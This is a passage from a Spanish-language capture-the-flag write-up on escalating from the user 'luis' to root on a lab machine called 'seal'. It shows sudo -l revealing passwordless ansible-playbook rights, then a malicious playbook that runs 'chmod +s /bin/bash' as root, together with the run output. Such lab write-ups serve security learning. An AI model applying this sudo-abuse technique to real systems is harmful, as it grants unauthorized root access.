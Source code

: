 ```bash
luis@seal:~$ 
```

Y nos conectamos por `SSH` como el user Luis
```bash
luis@seal:~$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```

# Privesc to Root
Procedemos a crearnos un archivo `.yml malicioso` que cuando ejecutemos el `/usr/bin/ansible-playbook nos injeccte un comando malicioso` como el user ROOT
```bash
luis@seal:/dev/shm$ cat setenso.yml 
  - name: Check the remote host uptime
    hosts: localhost
    tasks:
      - name: Execute the Uptime command over Command module
        command: "chmod +s /bin/bash"
```
Y procedemos a ejecutarlo

```bash
luis@seal:/dev/shm$ nano setenso.yml                                                                                                                                                                                
luis@seal:/dev/shm$ sudo -u root /usr/bin/ansible-playbook setenso.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'                                                                                         
                                                                                                                                                                                                                    
PLAY [Check the remote host uptime] ********************************************************************************************************************************************************************************
                                                                                                                                                                                                                    
TASK [Gathering Facts] *********************************************************************************************************************************************************************************************
ok: [localhost]                                                                                                                                                                                                     
                                                                                                                                                                                                                    
TASK [Execute the Uptime command over Command module] **************************************************************************************************************************************************************
[WARNING]: Consider using the file module with mode rather than running 'chmod'.  If you need to use command because file is insufficient you can add 'warn: false' to this command task or set                     
'command_warnings=False' in ansible.cfg to get rid of this message.
changed: [localhost]

PLAY RECAP *********************************************************************************************************************************************************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   
```
